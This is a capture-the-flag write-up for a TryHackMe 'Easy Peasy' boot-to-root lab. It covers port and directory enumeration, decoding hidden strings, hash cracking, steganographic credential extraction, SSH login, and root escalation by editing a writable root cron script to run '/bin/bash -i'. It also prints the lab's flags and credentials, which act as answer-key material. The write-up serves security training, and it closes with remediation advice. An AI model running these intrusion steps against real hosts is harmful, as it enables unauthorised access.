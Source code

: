 # Lab Report - Easy Peasy


# Overview 
---
- **Category**: Web
- **Difficulty**: Easy
- **Platform**: Linux
- **Link**: https://tryhackme.com/room/easypeasyctf 
- **Tags**: #enumeration #privesc 

## Challenge Description 
---
> **- Basic boot-to-root machine.** 

## Resolution Summary 
---
>**We enumerated the machine, discovered hidden web directories and decoded multiple encodings/steganography to retrieve flags and credentials, cracked a webpage hash to reveal a password, and used extracted credentials to connect over SSH. After auditing scheduled tasks we found a root-run cron script with insecure permissions, modified it to spawn a root shell, achieving full compromise.**

# Information Gathering 
---
### Active Reconnaissance : 
---
- **We started by performing an Nmap scan on the target, we also scanned for services' versions to look early on for low hanging fruits.
```bash
nmap -sV 10.10.132.17 
```

- **Here are the results : 
```bash
#Results
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
```

- **Just in case, we added the `-p-` flag to the Nmap scan, which proved to be useful: 
```bash
#Results 
80/tcp    open  http    nginx 1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
```

## HTTP (80)
---
- **First we ran GoBuster to look for hidden directories, as there was not much on the web page at first sight (default Nginx welcome page). 
- **For the first one : 
```bash
gobuster dir -u 10.10.132.17 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14
```

- **We uncovered the following directory : 
```bash
#Results
/hidden               (Status: 301)
```

- **There we found an image. We uploaded it and ran exiftool to find any hints in the picture's metadata.  
```bash
exiftool ./lost-places-http-80-hidden.jpg 
```
	- Unfortunatly, we did not find anything.

- **We attempted again GoBuster, but this time on the hidden directory : 
```bash
gobuster dir -u 10.10.132.17/hidden -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14
```

- **When inspecting the Source page, we found a hidden string that seemed to be encoded in base64 :
```html
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
```

- **We decoded the hidden string using CyberChef and we got the first flag.
	- **`flag{f1rs7_fl4g}`**

## HTTP (65524)
---
- **For the second HTTP server, we were also greeted with the default Apache the welcome page.
- **However, upon inspecting the Source Page, we found a flag hiding in plain sight: 
	- **`flag{9fdafbd64c47471a8f54cd3fc64cd312}`**

- **Similarly to what has been done before, we also started here with GoBuster: 
```bash
gobuster dir -u http://10.10.132.17:65524 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14 -x php,txt
```
- **And we found a `robots.txt` file that exposed a user agent, we used it and ran GoBuster again : 
```bash
gobuster dir -u http://10.10.132.17:65524 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 14 -a "a18672860d0510e5ab6699730763b250"
```
	- We did not find anything.

- **However, the user-agent ended up being an md5 hash that we cracked online to get a flag:
	- **`flag{1m_s3c0nd_fl4g}`**

- **Another available option was to curl the web page used that user-agent : 
```bash
curl -A "a18672860d0510e5ab6699730763b250" http://10.10.132.17:65524
```

- **As a result, we discovered a strange string : `ObsJmP173N2X6dOrAgEAL0Vu`, which we attempted to decode. 
- **It happened to be encoded in Base62, decoding it (with CyberChef) gave us a new directory : `/n0th1ng3ls3m4tt3r`, which is another flag:
	- **`/n0th1ng3ls3m4tt3r`**

- **We came across a web page, we investigated the Source Page as usual and found what seemed to be a hash : `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81`, which we attempted to crack. We will use JTR : 
```bash
john --wordlist=/home/kali/Downloads/easypeasy_1596838725703.txt hash.txt
```
	- This gave us a good idea on what format the hash could be (we must specify it next).

```bash
john --wordlist=/home/kali/Downloads/easypeasy_1596838725703.txt hash.txt -format=gost
```

- **We got a password :
	- **`mypasswordforthatjob`**

- **We also extracted the binary code picture from the directory`/n0th1ng3ls3m4tt3r` and used `stegseek` to find data that was hidden inside the picture (using Steganography) :
```bash
stegseek binarycodepixabay.jpg /home/kali/Downloads/easypeasy_1596838725703.txt 
```

- **We found a username and a password in binary code, which we decoded to obtain the following credentials (to test on the SSH server) :
	- **`boring:iconvertedmypasswordtobinary`**

- **We connect over SSH using 
```bash
ssh boring@10.10.132.17 -p6498
```

- **We found the `user.txt` flag, which needed to be decoded using ROT13 on CyberChef.**
	- **`flag{n0wits33msn0rm4l}`**
# Privilege Escalation 
---
- **Upon inspecting usual privesc attack vectors, we found a vulnerable cronjob that was running as root. 
- **We found the binary attached to the cronjob: 
```bash
find / -name ".mysecretcronjob.sh" 2>/dev/null
```

- **We edited the previous binary to spawn a shell as root once the cronjob is executed: 
```bash
/bin/bash -i
```

- **And we make our way through root and read the root.txt flag.**
# Trophy 
---
**User.txt → `flag{n0wits33msn0rm4l}`  

**Root.txt → `flag{63a9f0ea7bb98050796b649e85481845}`**
# Remediation Summary
---
- **World-writable binaries in root owned cronjobs**: Ensure cron jobs and their scripts/binaries are owned by root and not writable by others (strict permissions).
- **Credentials hiding in images**:Remove credentials and sensitive data from web content and images; store secrets securely.

# Lessons Learned
---
- **Recursively using GoBuster on discovered hidden directories can be useful. 
- **Identify the hash algorithm/format** before cracking to save time.
- **Test different user-agents/headers**: servers may reveal different content based on them.
